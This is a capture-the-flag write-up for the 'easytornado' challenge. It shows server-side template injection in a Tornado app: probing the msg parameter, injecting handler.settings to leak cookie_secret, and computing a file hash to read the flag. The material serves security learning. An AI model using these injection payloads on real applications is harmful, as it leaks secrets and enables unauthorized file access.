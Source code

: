 # easytornado

![Screenshot from 2021-07-25 20-05-19](https://user-images.githubusercontent.com/87865134/126900112-a3444548-305e-4e83-aa6b-dea7e675cf3d.png)

### - Hint:
  - use ***Tornado template*** 
  - flag in ***/fllllllllllllag***  
 
![Screenshot from 2021-07-25 20-08-16](https://user-images.githubusercontent.com/87865134/126900198-767f6b23-6fc2-42df-bc00-6cadfcd6cafa.png) 

  - `flag = md5(cookie_secret + md5(filename)  `  

![Screenshot from 2021-07-25 20-08-22](https://user-images.githubusercontent.com/87865134/126900202-6e3db666-7514-4b05-839f-053bbd4ea55f.png)

### - Detect: Error message change when ***msg*** parameter change:
![Screenshot from 2021-07-25 20-13-01](https://user-images.githubusercontent.com/87865134/126900431-a21376a0-6639-4072-b171-521b9bcc3861.png)

### 1. Test Template Injection
  - `?msg={{1}}` -> ok  

![Screenshot from 2021-07-25 20-14-23](https://user-images.githubusercontent.com/87865134/126900438-26e58f61-5f73-43c2-bc56-e1ed7358ec67.png)

  - `?msg={{2*2}}` -> fail  

![Screenshot from 2021-07-25 20-16-57](https://user-images.githubusercontent.com/87865134/126900489-6e8bb9eb-d167-49d8-9e4f-5700e5509fd2.png)

   > **=> Can't inject normal python code**
 
### 2. Find Built-in Object or Function in Tornado Template
  - **handler**: the current RequestHandler object
  - **handler.settings**: An alias for self.application.settings
    - > Maybe use **handler.settings** to get cookie_secret  

### 3. Inject `handlder.settings` to get ***cookie_secret***

![Screenshot from 2021-07-25 20-25-44](https://user-images.githubusercontent.com/87865134/126900716-0223bff2-c032-4cc0-b592-7bbcb1e7a3a8.png)

  - > Get ***cookie_secret***
 
### 4. Write code to hash:  
  ```php
  <?php

    $filename = '/fllllllllllllag';
    $cookie_secret = 'fbd48365-83e4-4d36-92a5-40c76518080b';

    echo md5($cookie_secret . md5($filename));
    //6315535dd899bcca44fa44223763d16d 
?
  ```

### 5. Submit filename & hash to get flag
 ```
 http://111.200.241.244:54059/file?filename=/fllllllllllllag&filehash=6315535dd899bcca44fa44223763d16d
 ```

![Screenshot from 2021-07-25 20-30-36](https://user-images.githubusercontent.com/87865134/126900865-65f765d2-b0ca-4183-a111-762cf5c0080a.png)

### - Description:
> **category**: Server-side Template Injection

### - Reference:
  - [Tornado Template syntax](https://www.tornadoweb.org/en/latest/guide/templates.html)
  - [Tornado RequestHandler](https://www.tornadoweb.org/en/latest/web.html#tornado.web.RequestHandler)
  - [Tornado self.application.settings](https://www.tornadoweb.org/en/latest/web.html#tornado.web.Application.settings)
